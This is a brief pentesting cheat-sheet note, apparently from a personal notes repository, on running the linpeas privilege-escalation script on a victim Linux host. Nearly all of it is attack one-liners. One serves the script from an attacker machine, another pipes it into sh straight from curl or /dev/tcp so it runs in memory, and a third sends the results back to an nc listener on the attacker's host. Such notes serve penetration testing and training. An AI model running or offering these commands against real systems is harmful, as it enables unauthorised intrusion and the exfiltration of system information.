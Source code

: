 ```yaml
---
id: 33dff0d7-d2b6-4410-9334-e3b63aae2455
title: linpeas
---
```


- <a href="#execution" id="toc-execution">Execution:</a>

# Execution:

Run from memory and send back to attacker:

``` shell
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
